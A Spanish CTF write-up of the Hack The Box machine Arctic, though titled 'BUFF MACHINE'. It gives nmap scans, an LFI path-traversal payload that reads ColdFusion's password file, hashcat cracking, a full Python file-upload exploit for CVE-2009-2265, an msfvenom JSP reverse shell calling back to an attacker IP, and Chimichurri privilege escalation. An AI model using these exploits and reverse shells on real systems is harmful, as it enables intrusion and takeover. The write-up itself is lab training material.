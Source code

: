 #  BUFF MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.11 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.11 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/3.png)

## EXPLOTACION

Vemos que el puerto 8500 no pudo se ridentificado, pero si vemos si tiene algo en el navegador nos encontramos con un directory listing:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/4.png)

si vamos al enlace de CFIDE y despues Administrator nos sale un inicio de sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/5.png)

con la version vamos a buscar vulnerabilidades y encontramos  un LFI que nos muestra la contraseña cifrada del usuario administrador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/6.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/7.png)

si vamos a esa ruta vemos unas credenciales cifradas:

```bash
?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/8.png)

con la herramienta **hash identifier** vamos a intentar descubribir que cifrado usa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/9.png)

usa SHA1, intentemos un ataque de fuerza bruta con diccionario mediante hashcat para ver si encontramos:

```bash
hashcat -a 0 -m 100 hash.txt /usr/share/wordlist/rockyou.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/10.png)

la contraseña es **happyday** vamos a iniciar sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/11.png)

encontre una POC de un file upload para adobe coldfusion 8 en el siguiente enlace [https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload)

```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

lo descargamos y vamos a subir un jsp malicioso. ¿Por qué un JSP? pues buscando se descubrio que adobe interpreta java y la extension .jsp.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=4242 -f raw > shell.jsp
```

ahora vamos a ejecutar el exploit:

```bash
python exploit.py 10.10.10.11 8500 shell.jsp
```

y nos indica que lo sube en la ruta: "http://10.10.10.11:8500/userfiles/file/"

si vamos a esa ruta en el navegador vemos la shell.jsp, nos colocamos a la escucha en netcat y lo ejecutamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/12.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/13.png)

## ELEVACION DE PRIVILEGIOS

Viendo los permisos del usuario vemos que tiene el **SeImpersonatePrivilege** y esto lo podemos explotar con el** juicy potato**, ademas que el sistema operativo es antiguo y podemos usar **Chimichurri.exe**.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/14.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/15.png)

Para realizar la elevacion de privilegios pueden ver como se lo hixo en la maquina **DEVEL** y se puede aplicar literalmente lo mismo.

Yo utilice chimichurri para hacerlo rapido:

```bash
chimichurri.exe 10.10.14.16 4545
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/16.png)